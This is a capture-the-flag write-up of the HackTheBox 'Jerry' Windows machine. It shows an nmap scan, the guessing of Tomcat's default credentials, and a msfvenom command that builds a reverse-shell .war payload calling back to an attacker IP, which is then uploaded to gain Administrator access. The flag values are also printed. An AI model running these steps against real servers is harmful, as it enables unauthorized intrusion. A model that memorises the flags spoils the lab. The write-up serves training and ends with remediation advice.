

<p align="center">
  
</p>

---

- 🎯 **Target:** HackTheBox - Jerry Windows
- 🧑‍💻 **Author:** `sonyahack1`
- 📅 **Date:** 04.03.2025
- 📊 **Difficulty:** Easy
- 📁 **Category:** Web vulnerabilities
- 💻 **Platform:** Windows

---

## Table of Contents

- [Summary](#summary)
- [Reconnaissance](#%EF%B8%8F--reconnaissance)
- [Entry Point](#-entry-point--initial-access)
- [Conclusion](#-conclusion)

---

## Summary

| Stage         | Info                               	    |
|---------------|-------------------------------------------|
|   User Flag   | `flag{7004dbcef0f854e0fb401875f26ebd00}`  |
|   Root Flag   | `flag{04a8b36e1545a455393d067e772fe90e}`  |
|  Credentials  | `tomcat:s3cret`	                    |
|   Technique   | `Insecure Files Upload Attack`	    |

---

> add the machine's IP address to /etc/hosts:

```bash

echo '10.10.10.95 jerry.htb' | sudo tee -a /etc/hosts

```

---
## 🕵️  Reconnaissance

> I scan the target for open ports and services via `nmap`:

```bash

sudo nmap -sVC -p- -vv -T5 jerry.htb -oN jerry_tcp_scan

```
> Results:

```bash

8080/tcp open  http    syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat

```

> Scanning showed only one open port `8080`.
> Open in browser:


> We see the start page of the Apache Tomcat web server

> Go to `Manager App` since that is where the list of all deployed applications is located in **Tomcat**


> But you can’t just get there - this functionality requires elevated privileges (for example, administrator).


> Ok. I Need credentials.

> I found a **wordlist** with credentials for `Tomcat` that can be installed by default:


> Using the enumeration method I found the correct pair - `tomcat`:`s3cret`.

> Go to `Manager App`


> I see a list of deployed applications as well as the functionality for adding a new **Java** application. `Tomcat` allows you to download certain types of files - so-called `.war` archives
> which it can independently deploy and display in the list of applications.

---
## 🚪 Entry Point / initial access

---

**Note:** `.war` is a special file format (extension) designed for deploying **Java** applications on `Apache Tomcat` servers. This format is correct for `Tomcat` since it contains all the
necessary components for deploying and running the application itself - `JSP files`, `servlets`, `HTML pages`, `static resources` and `configuration files`.

---

> If there is no filtering or validation of uploaded files on the server side, then having access to the web applications administration panel I can implement an attack of the `Insecure File Upload` type
> which will allow me to gain access to the system.

> Since the application deployment functionality can only accept `.war` files for upload I will generate a suitable payload for the `.war` file via `msfvenom`:

```bash

msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.15 LPORT=4444 -f war -o reverse.war

Payload size: 13033 bytes
Final size of war file: 13033 bytes
Saved as: reverse.war

```

> Uploading the finished `.war` archive to the server:


> Our downloaded `reverse` appeared in the list of applications.

> I launch the listener and open `reverse` in the browser to activate the payload:


> Reverse Shell:


---

**Note:** `Insecure File Upload` is a web vulnerability that exploits the ability of web applications to expand using user information using functions
to upload something to the server - `files`, `pictures`, `documents`, etc. If the data uploaded by the user is not filtered and checked properly, this can
lead to the execution of arbitrary malicious code on the server side.

---

> Flags are in the directory `C:\Users\Administrator\Desktop\flags`:

```bash

C:\apache-tomcat-7.0.88>type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt"
type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
C:\apache-tomcat-7.0.88>

```

> Machine is pwned.

---
## 🧠 Conclusion

> During the machine walkthrough a running `Apache Tomcat` web server was detected on port `8080`. Access to the application administration panel was obtained by exploiting
> `insecure default credentials`. The lack of any filtering when uploading files to the server resulted in access to the system with Administrator privileges by obtaining a
> reverse shell through uploading a `.war` archive containing malicious code. The `Insecure File Upload` vulnerability is dangerous because it allows easy access to the system
> without being an Administrator.

> To eliminate the vulnerabilities, it is necessary to:

- Implement full control over access rights. Do not use default credentials to avoid unauthorized access to the administration functionality. Users should not have excessive privileges.
- Be sure to implement `verification of uploaded files`. It is necessary to strictly check and limit the upload of `.war` files.

<p align="center">
  
</p>
